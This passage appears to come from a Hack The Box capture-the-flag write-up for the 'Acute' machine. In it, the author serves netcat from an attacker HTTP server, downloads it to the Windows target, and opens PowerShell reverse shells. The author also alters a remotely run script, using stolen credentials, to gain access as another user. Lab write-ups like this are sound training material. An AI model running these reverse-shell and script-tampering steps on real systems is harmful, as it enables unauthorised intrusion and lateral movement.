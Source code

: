 - Upload netcat executable to `C:\Utils\` on `Acute-PC01`:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:03:10(HKT)]
└> file /opt/static-binaries/binaries/windows/x64/nc.exe 
/opt/static-binaries/binaries/windows/x64/nc.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows, 7 sections
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:03:19(HKT)]
└> python3 -m http.server -d /opt/static-binaries/binaries/windows/x64/ 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
PS > iwr -Uri http://10.10.14.19/nc.exe -OutFile C:\Utils\nc.exe
```

- Test the netcat executable is working or not:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:05:11(HKT)]
└> rlwrap -cAr nc -lvnp 4443
listening on [any] 4443 ...
```

```shell
PS > C:\Utils\nc.exe -nv 10.10.14.19 4443 -e powershell.exe
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:05:11(HKT)]
└> rlwrap -cAr nc -lvnp 4443
listening on [any] 4443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.145] 49832
[...]
PS C:\Users\edavies\Documents> 
```

It's working.

- Exit the testing reverse shell session and setup a new netcat listener:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:07:23(HKT)]
└> rlwrap -cAr nc -lvnp 4443
listening on [any] 4443 ...
```

- Modify the `wm.ps1` script to the netcat reverse shell payload:

```shell
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { (Get-Content -Path C:\Users\imonks\Desktop\wm.ps1) -replace "whoami /all", "C:\Utils\nc.exe -nv 10.10.14.19 4443 -e powershell.exe" | Set-Content -Path C:\Users\imonks\Desktop\wm.ps1 }
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { cat C:\Users\imonks\Desktop\wm.ps1 }
$securepasswd = '01000000d08[...]c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {C:\Utils\nc.exe -nv 10.10.14.19 4443 -e powershell.exe} -ComputerName Acute-PC01 -Credential $creds
```

